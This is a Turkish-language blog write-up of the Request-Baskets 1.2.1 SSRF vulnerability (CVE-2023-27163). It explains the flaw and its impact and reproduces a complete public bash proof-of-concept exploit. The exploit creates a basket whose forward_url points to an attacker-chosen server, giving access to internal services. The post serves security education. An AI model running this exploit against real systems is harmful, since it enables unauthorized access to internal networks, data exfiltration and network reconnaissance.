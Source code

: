 ```yaml
---
{"dg-publish":true,"permalink":"/mediium-request-baskets-tuerkce/"}
---
```


# Request-Baskets 1.2.1 Server-Side Request Forgery (CVE-2023–27163)

![Pasted image 20250111000851.png](/img/user/Pasted%20image%2020250111000851.png)

1- **Request-Baskets nedir?**  
[Request-Baskets](https://rbaskets.in/web), rastgele HTTP **request**'lerini yakalamak ve bunları bir **RESTful API** veya basit bir web **user interface** aracılığıyla incelemeyi kolaylaştırmak için tasarlanmış bir web servisidir.

Bu servis, **RequestHub** projesinin konseptlerinden ve uygulama tasarım prensiplerinden esinlenmiştir ve daha önce **RequestBin** servisi tarafından sağlanan işlevselliği yeniden oluşturur.

**2- Request-Baskets Üzerinde SSRF (CVE-2023–27163)**  
CVE-2023–27163, Request-Baskets içinde tespit edilen kritik bir **Server-Side Request Forgery (SSRF)** zafiyetidir ve 1.2.1 sürümü dahil tüm versiyonları etkiler. Bu zafiyet, kötü niyetli aktörlerin /api/baskets/{name} bileşenini dikkatle hazırlanmış **API request**'leri aracılığıyla istismar ederek yetkisiz ağ kaynaklarına ve hassas bilgilere erişim sağlamasına olanak tanır.

**3- Nasıl Çalışır?**  
Daha önce belirtildiği gibi, Request-Baskets belirli **endpoint**'lere (baskets olarak bilinir) yönlendirilen gelen HTTP **request**'leri toplamak ve kaydetmek için tasarlanmış bir **web application** olarak çalışır. Bu baskets'leri oluştururken kullanıcılar, bu **request**'lerin iletileceği alternatif **server**'ları belirleme esnekliğine sahiptir. Kritik sorun, kullanıcıların yanlışlıkla bir ağ ortamında genellikle erişim kısıtlaması bulunan servisleri belirtebilmesinde yatar.

Örneğin, bir senaryoda, sunucunun 55555 portunda Request-Baskets'i barındırdığını ve aynı zamanda 8000 portunda bir Flask **web server** çalıştırdığını düşünelim. Ancak Flask **server**, yalnızca **localhost** ile etkileşimde bulunacak şekilde yapılandırılmıştır. Bu contexde, bir saldırgan SSRF zafiyetini exploit ederek [http://localhost:8000](http://localhost:8000) adresine **request**'leri yönlendiren bir basket oluşturabilir. Böylece önceki ağ kısıtlamalarını aşarak yalnızca local erişime açık olması gereken Flask **web server**'a erişim elde edebilir.


4- Exploit script

Senaryo[ vulners web](https://vulners.com/packetstorm/PACKETSTORM:174128) sitesinden alınmıştır

```
# Exploit Title: Request-Baskets v1.2.1 - Server-side request forgery (SSRF)  
# Exploit Author: Iyaad Luqman K (init_6)  
# Application: Request-Baskets v1.2.1  
# Tested on: Ubuntu 22.04  
# CVE: CVE-2023-27163  
  
  
# PoC  
#!/bin/bash  
  
  
if [ "$#" -lt 2 ] || [ "$1" = "-h" ] || [ "$1" = "--help" ]; then  
help="Usage: exploit.sh <URL> <TARGET>\n\n";  
help+="Arguments:\n" \  
help+=" URL main path (/) of the server (eg. http://127.0.0.1:5000/)\n";  
help+=" TARGET";  
  
echo -e "$help";  
exit 1;  
fi  
  
URL=$1  
ATTACKER_SERVER=$2  
  
if [ "${URL: -1}" != "/" ]; then  
URL="$URL/";  
fi;  
  
BASKET_NAME=$(LC_ALL=C tr -dc 'a-z' </dev/urandom | head -c "6");  
  
API_URL="$URL""api/baskets/$BASKET_NAME";  
  
PAYLOAD="{\"forward_url\": \"$ATTACKER_SERVER\",\"proxy_response\": true,\"insecure_tls\": false,\"expand_path\": true,\"capacity\": 250}";  
  
echo "> Creating the \"$BASKET_NAME\" proxy basket...";  
  
if ! response=$(curl -s -X POST -H 'Content-Type: application/json' -d "$PAYLOAD" "$API_URL"); then  
echo "> FATAL: Could not properly request $API_URL. Is the server online?";  
exit 1;  
fi;  
  
BASKET_URL="$URL$BASKET_NAME";  
  
echo "> Basket created!";  
echo "> Accessing $BASKET_URL now makes the server request to $ATTACKER_SERVER.";  
  
if ! jq --help 1>/dev/null; then  
echo "> Response body (Authorization): $response";  
else  
echo "> Authorization: $(echo "$response" | jq -r ".token")";  
fi;  
  
exit 0;
```


**Açıklama**  
Kodun işlevlerinin bir dökümü:

1. **Argument Validation**:  
    Script, kendisine geçirilen komut satırı argümanlarının sayısını kontrol eder. Argüman sayısı 2’den azsa veya ilk argüman “-h” ya da “--help” ise, kullanım bilgilerini görüntüler ve çıkış yapar.
    
2. **Parsing Command-Line Arguments**:  
    İlk argümanı ($1) **URL** değişkenine, ikinci argümanı ($2) **ATTACKER_SERVER** değişkenine atar. Ayrıca, **URL**'nin sonunda bir **slash** ("/") olduğundan emin olarak geçerli URL'ler oluşturur.
    
3. **Generating a Random BASKET_NAME**:  
    Küçük harflerden rastgele bir dize oluşturur ve bunu **BASKET_NAME** değişkenine atar.
    
4. **Constructing API_URL and PAYLOAD**:  
    **API_URL**’yi oluşturmak için **BASKET_NAME**'i **URL**'ye ekler. Daha sonra, **ATTACKER_SERVER**'ı **forward_url** olarak içeren JSON **payload**'unu (PAYLOAD) oluşturur.
    
5. **Creating a Proxy Basket**:  
    Script, **curl** komutunu kullanarak **JSON payload**'u veri olarak **API_URL**'ye bir **HTTP POST request** gönderir. Bu, hedef sunucuda **proxy basket** oluşturur ve gelen istekleri **ATTACKER_SERVER**'a iletir.
    
6. **Handling the Response**:  
    **curl** komutunun başarılı olup olmadığını kontrol eder. Eğer başarısızsa, bir hata mesajı görüntüler ve çıkış yapar. Aksi takdirde, bir başarı mesajı ve oluşturulan **proxy basket** hakkında bilgi görüntüler.
    
7. **Using jq for JSON Parsing**:  
    Eğer **jq** aracı mevcutsa, yanıt JSON’undan "Authorization" **token**'ını çıkarmayı dener. **jq** mevcut değilse, tüm yanıt gövdesini görüntüler.
    
8. **Exit**:  
    Script, 0 durum koduyla başarıyla çıkış yapar.
    

Bu script, hedef sunucuda bir **proxy basket** oluşturur ve bu basket, istekleri saldırganın script'i **ATTACKER_SERVER**'a iletir. Saldırgan, bu durumu kullanarak hedef sunucunun rastgele hedeflere istek göndermesini sağlayabilir ve bu da hassas internal kaynakların açığa çıkmasına veya yetkisiz işlemler gerçekleştirilmesine neden olabilir.

**5- Etki**:

a- **Information Disclosure and Exfiltration**:  
Request-Baskets'deki **SSRF** zafiyeti, bilgi ifşası ve veri sızdırma riskini ciddi şekilde artırır. İlk başta yalnızca kimlik doğrulaması gerektirmeyen görsellerin yetkisiz bir şekilde ele geçirilmesi endişe kaynağı olsa da, bu durum görsellerin ötesine geçer. Hedef sunucunun local ağında **HTTP request** ile erişilebilen herhangi bir kaynak, bu exploit kullanılarak remote elde edilebilir.

b- **Unauthenticated Access to Internal Network HTTP Servers**:  
SSRF saldırısının istismarı, Request-Baskets sunucusuyla aynı ağda bağlı herhangi bir **HTTP server**'a kimlik doğrulaması olmadan erişim sağlar. Bu, yalnızca iç erişime açık olan Nginx gibi sunucular, dahili **RESTful API**'ler (NoSQL ve GraphQL veri tabanları gibi) için de geçerlidir. Önemli bir nokta, bu erişimin yalnızca local makineyle sınırlı olmamasıdır; local ağda bağlı tüm makineleri kapsar.

c- **Port and IP Scanning and Enumeration**:  
**SSRF** zafiyeti, hem internal hem de external **HTTP server**'lar için talep üzerine **port scan** yapma imkanı sunar. Ayrıca, local ağdaki açık **HTTP port**'lara sahip tüm makinelerin sayımını yapmayı sağlar. Bu yetenek, kötü niyetli aktörlere keşif yapma imkanı tanır ve ağın tüm mimarisini ve açık zafiyetlerini ortaya çıkarabilir.

**6- Sonuç**  
Bu zafiyet, yetkisiz erişimi önlemek ve web servislerinin güvenli bir şekilde çalışmasını sağlamak için doğru güvenlik kontrollerinin ve doğrulama mekanizmalarının önemini vurgular. Request-Baskets içinde keşfedilen gibi **SSRF** zafiyetlerinin inceliklerini anlamak, hem geliştiriciler hem de güvenlik profesyonelleri için kritiktir, çünkü bu durum bu tür risklerin etkili bir şekilde belirlenmesini ve azaltılmasını sağlar.




